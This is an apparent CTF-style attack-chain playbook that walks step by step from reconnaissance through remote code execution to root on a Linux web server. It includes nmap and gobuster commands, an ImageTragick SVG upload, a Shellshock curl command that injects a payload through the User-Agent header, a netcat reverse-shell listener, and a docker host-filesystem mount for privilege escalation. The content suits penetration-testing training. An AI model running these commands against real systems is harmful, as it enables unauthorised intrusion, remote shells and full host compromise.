

# Web-Application-Exploitation-via-ImageTragick-Shellshock-and-Docker-Privilege-Escalation

Multi-stage attack chain targeting a Linux-based web application vulnerable to ImageTragick and Shellshock, leading to remote code execution via reverse shell and privilege escalation using Docker group misconfiguration. This simulates a CTF-style scenario where reconnaissance identifies the web app, exploitation gains initial access, and post-exploitation achieves root privileges.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~2-4 hours |
| Skill Level | Intermediate |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Gobuster]]
- [[tools/cURL]]
- [[tools/Docker]]

### Target Environment

- Linux target system with web application (e.g., Apache/Nginx using ImageMagick or CGI scripts)
- Open ports for web services (80/443)
- Docker installed with user in docker group (misconfiguration)
- Network connectivity to target

### Initial Access Requirements

- No prior credentials needed; assumes external network access
- Attacker machine with Kali Linux or equivalent for tools
- Listener setup (e.g., netcat) for reverse shells on attacker IP/port

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan
procedure: [[procedures/Basic-Port-Scan-with-Service-Enumeration]]

**Objective**: Identify open ports and services on the target to locate the web application entry point.

**Instructions**: Run a service enumeration scan on the target IP to detect web services on common ports.

Use [[commands/Nmap-Port-Scan-with-Banner-Enumeration]]:

```bash
nmap -sV $_TARGET_IP
```

Analyze results for HTTP/HTTPS services.

**Expected Output**: List of open ports with service versions, e.g., 80/tcp open http Apache httpd.

**Success Indicators**:
- Web service (HTTP/HTTPS) detected on port 80/443
- Banner reveals server technology (e.g., Apache)

### Step 2: Brute Force Directories
procedure: [[procedures/Directory-Brute-Force-Web-App-with-GoBuster]]

**Objective**: Discover hidden directories and files on the web application to identify upload points or CGI scripts.

**Instructions**: Use a wordlist to brute force common directories on the discovered web server.

Execute [[commands/Gobuster-Directory-Brute-Force]]:

```bash
gobuster dir -w $_WORDLIST -u http://$_TARGET_IP
```

Focus on findings like /cgi-bin/ or upload endpoints.

**Expected Output**: Discovered paths with status codes, e.g., /cgi-bin/ (Status: 301).

**Success Indicators**:
- Hidden directories like /admin/ or /upload/ found
- CGI directory accessible

### Step 3: Brute Force with File Extensions
procedure: [[procedures/Directory-Brute-Force-Web-App-Extensions-with-GoBuster]]

**Objective**: Enumerate specific file types based on server technology to find exploitable scripts or images.

**Instructions**: Extend brute force to include common extensions like .php, .sh for CGI or image uploads.

Run [[commands/Gobuster-Directory-Brute-Force-with-Extensions]]:

```bash
gobuster dir -w $_WORDLIST -u http://$_TARGET_IP -x 'php,sh,jpg,png'
```

**Expected Output**: Files with extensions, e.g., /upload.php (Status: 200).

**Success Indicators**:
- Image upload endpoints or CGI scripts (.sh) discovered
- Potential ImageMagick processing paths identified

### Step 4: Analyze SSL/TLS Certificate
procedure: [[procedures/Enumerate-and-Analyze-SSL-TLS-Certificate]]

**Objective**: Extract information from the web server's SSL certificate to reveal subdomains or organizational details for further targeting.

**Instructions**: If HTTPS is in use, query the certificate for additional reconnaissance data.

Use openssl or nmap to fetch and parse the certificate.

**Expected Output**: Certificate details including subject, issuer, SANs (Subject Alternative Names).

**Success Indicators**:
- Additional hostnames or emails extracted
- Validity periods and potential misconfigurations noted

### Step 5: Exploit ImageTragick for RCE
procedure: [[procedures/Exploit-ImageMagick-ImageTragick-for-Code-Execution]]

**Objective**: Upload a malicious image to trigger code execution via ImageMagick vulnerability.

**Instructions**: Create and upload a crafted SVG image containing a reverse shell payload to an upload endpoint.

Use the [[codes/ImageTragick-SVG-Payload-for-RCE]] in an image file and upload via the web app.

Set up listener: nc -lvnp $_ATTACKER_PORT

**Expected Output**: Reverse shell connection to attacker listener.

**Success Indicators**:
- Shell prompt received
- Commands executable on target

### Step 6: Exploit Shellshock as Alternative RCE
procedure: [[procedures/Exploit-Shellshock-on-Vulnerable-Web-App]]

**Objective**: If ImageTragick fails, exploit Shellshock in CGI scripts for command injection and reverse shell.

**Instructions**: Target /cgi-bin/ scripts with crafted HTTP headers.

Test with sleep: [[commands/Curl-Exploit-Shellshock-Vulnerability]] using /bin/sleep 10

Then execute reverse shell using [[codes/Bash-TCP-Reverse-Shell-Payload]]:

```bash
curl http://$_TARGET_IP/cgi-bin/$_SCRIPT.sh -H 'User-Agent: () { :; }; $_PAYLOAD'
```

**Expected Output**: Delayed response for test, then shell connection.

**Success Indicators**:
- 10-second delay confirms vulnerability
- Reverse shell established

### Step 7: Enumerate Elevated Privileges
procedure: [[procedures/Find-Linux-Files-with-Elevated-Privileges]]

**Objective**: Post-shell, identify setuid binaries and capabilities for potential escalation paths.

**Instructions**: From the shell, search for setuid files and capabilities.

Run [[commands/Find-List-All-Files-with-Setuid-Permissions-Set]]:

```bash
find / -perm -4000 -ls 2>/dev/null
```

And [[commands/Getcap-List-All-Files-with-Capabilities-Set]]:

```bash
getcap -r / 2>/dev/null
```

Look for docker-related binaries.

**Expected Output**: List of setuid files, e.g., /usr/bin/docker with elevated perms.

**Success Indicators**:
- Docker binary with setuid or group access found
- Capabilities indicating priv esc potential

### Step 8: Escalate via Docker
procedure: [[procedures/Docker-Privilege-Escalation-Using-Docker-Group]]

**Objective**: Use Docker misconfiguration to mount host root and gain root shell.

**Instructions**: If user is in docker group, run a container mounting the host filesystem.

Execute [[commands/Docker-Mount-Hosts-Root-Directory-in-Container]]:

```bash
docker run -v /:/root_fs -i -t ubuntu bash
```

Navigate to /root_fs and spawn root shell.

**Expected Output**: Container with access to host root filesystem.

**Success Indicators**:
- Root shell obtained
- Host files readable/writable from container

## Attack Chain Summary

### Key Achievements

1. Web application services discovered via port and directory enumeration
2. Initial RCE via ImageTragick or Shellshock with reverse shell
3. Privilege escalation to root using Docker group access
4. Full system compromise achieved

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
